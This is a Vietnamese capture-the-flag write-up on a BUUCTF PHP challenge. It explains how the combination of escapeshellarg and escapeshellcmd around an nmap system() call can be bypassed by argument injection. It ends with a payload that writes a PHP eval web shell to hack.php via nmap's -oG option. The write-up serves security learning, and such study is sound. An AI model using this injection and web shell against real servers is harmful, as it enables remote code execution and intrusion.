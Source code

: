 Challenge cho ta source code sau:

```php
<?php
 
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
 
if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

Đầu tiên là `REMOTE_ADDR` và `X_FORWARDED_FOR` cũng ko quan trọng mấy.Ta có thể truyền tham số “host” thông qua method GET. Nếu tham số host có tồn tại thì nó sẽ được xử lí lần lượt qua 2 hàm `escapeshellarg()` và `escapeshellcmd()`.Đối với hàm `escapeshellarg` nó sẽ chuyển từ chuỗi thành tham số có thể sử dụng trong shell command, và bọc dấu ngoặc đơn để đảm bảo rằng các ký tự đặc biệt không được hiểu là phần của lệnh, mà chỉ được coi là phần chuỗi.

`escapeshellcmd` Đảm bảo rằng user chỉ thực hiện một command.Dấu “\” sẽ được thêm vào trước các kí tự & #; `| \? ~ <> ^ () [] {} $ *, \ X0A và \ xFF

# Bypass

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4c964fda-0b73-49b1-8969-07d3b48ad741)


![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2bd5a9be-1080-46f1-979f-e7cdf3a96f3b)

Mình có đọc [wu](https://security.szurek.pl/en/exploit-bypass-php-escapeshellarg-escapeshellcmd/#gitlist-rce-exploit) này, theo wu viết thì có cách để bypass 2 hàm này là Argument injection - tấn côn dựa trên việc giả các tham số.Vậy ta có pass vào các option mới cho command.Tùy vào command mà challenge cho thì cách bypass khác nhau. Với command của challenge cho là

`nmap -T5 -sT -Pn --host-timeout 2 -F`

Payload: `nmap -T5 -sT -Pn --host-timeout 2 -F '1'\\''shellcode\'`

shellcode: `'<?php eval($_POST["a"]);?> -oG hack.php '`

